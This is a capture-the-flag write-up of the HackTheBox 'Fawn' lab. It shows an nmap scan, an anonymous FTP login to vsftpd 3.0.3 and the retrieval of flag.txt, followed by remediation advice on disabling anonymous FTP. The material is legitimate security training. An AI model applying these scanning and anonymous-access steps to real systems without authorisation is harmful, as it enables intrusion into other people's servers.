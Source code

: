 # HackTheBox — Fawn (Starting Point) — Writeup

**Author:** Janhavi Mohite
**Machine:** Fawn (Starting Point)
**Date:** 2025-09-18

---

## Objective

Retrieve the user flag from the target machine `10.129.198.24` using allowed enumeration and exploitation techniques. This was a beginner-friendly starting point box focused on finding an anonymous FTP service and reading a flag file.

---

## Environment

* Attacking host: Kali/Parrot machine inside HTB VPN (example IP: `10.10.15.20`)
* Target host: `10.129.198.24`
* Tools used: `nmap`, built-in `ftp` client, `ping`, standard shell utilities

---

## Summary of steps

1. Performed host discovery and service enumeration with `nmap`.
2. Confirmed the host is reachable via `ping`.
3. Discovered FTP (vsftpd 3.0.3) and tried anonymous login.
4. Listed the FTP directory, downloaded `flag.txt` and read it locally.

---

## Reconnaissance

### Nmap scan

I ran a targeted nmap scan to identify open services and versions:

```bash
nmap -sV -sC -p- 10.129.198.24
```

**Key findings:**

* Port 21/tcp - `ftp` (vsftpd 3.0.3)
* The service advertises `ftp-anon: Anonymous FTP login allowed (FTP code 230)`

(See `nmap.png` for the screenshot of the nmap output.)

---

## Confirm host is up

I verified connectivity with `ping`:

```bash
ping -c 4 10.129.198.24
```

The host responded consistently, confirming it was reachable. (See `ping.png` screenshot.)

---

## Accessing FTP

I used the system `ftp` client to connect and authenticate anonymously.

```bash
ftp 10.129.198.24
# When prompted for username: anonymous
# When prompted for password: <press Enter>
```

Server banner showed `vsFTPd 3.0.3` and allowed anonymous login.

---

## Enumerating FTP

After connecting I switched to binary mode and listed the directory:

```bash
binary
ls
```

Output showed a single file `flag.txt` (32 bytes). I downloaded it with:

```bash
get flag.txt
```

Transfer completed successfully. (See `ftp.png` screenshot for the FTP session and transfer progress.)

---

## Reading the flag

On my local attacking machine I changed into the working directory where the FTP client saved the file and displayed it:

```bash
ls -la
cat flag.txt
```

The file contained the user flag which completes the objective for this machine.

---

## Commands used (compact)

```
nmap -sV -sC -p- 10.129.198.24
ping -c 4 10.129.198.24
ftp 10.129.198.24
# in ftp client:
# username: anonymous
# password: <blank>
binary
ls
get flag.txt
exit
# locally
ls -la
cat flag.txt
```

---

## Observations & Notes

* The FTP server allowed anonymous logins; this is common on intentionally vulnerable starting boxes.
* Both control and data connections for classical FTP are clear-text; credentials and file contents transfer unencrypted.
* No further privilege escalation was required for this box — the objective was to find the flag via anonymous FTP.

---

## Remediation advice (for real systems)

* Disable anonymous FTP unless explicitly required.
* If file transfer is required, prefer secure alternatives such as SFTP (SSH File Transfer Protocol) or FTPS (FTP over TLS).
* Keep FTP server software up to date and restrict reachable directories and file permissions.

---

## References / Credits

* Lab: HackTheBox — Starting Point: Fawn
* Tools: nmap, ftp, ping

---

## Appendix — Screenshots

* `nmap.png` — Nmap service/version discovery and ftp-anon note
* `ping.png` — Ping results showing host is up
* `ftp.png` — FTP session showing anonymous login, file listing and file download

---

